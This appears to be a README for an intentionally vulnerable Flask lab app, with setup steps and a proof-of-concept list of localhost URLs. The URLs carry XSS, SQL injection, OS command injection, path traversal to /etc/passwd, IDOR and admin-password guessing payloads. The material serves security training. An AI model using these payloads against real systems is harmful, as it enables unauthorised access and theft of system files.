 ### Инструкция по сборке и запуску приложения

pip install flask

Run on kali linux or another linux dist

python3 vulnerable-flask-app.py
...

### Proof of Concept

# xss
http://127.0.0.1:8081/xss?name=<script>alert('xss')</script>

# idor
http://127.0.0.1:8081/users?id=1 

# sqli
http://127.0.0.1:8081/user/' OR 1=1 --

# os command injection
http://127.0.0.1:8081/os_inj?hostname=id

# path traversal
http://127.0.0.1:8081/read_file?filename=/../../../../../../etc/passwd

# brute force
http://127.0.0.1:8081/login?username=admin&password=superadmin
...

### Дополнительные комментарии
> Опциональный раздел

...
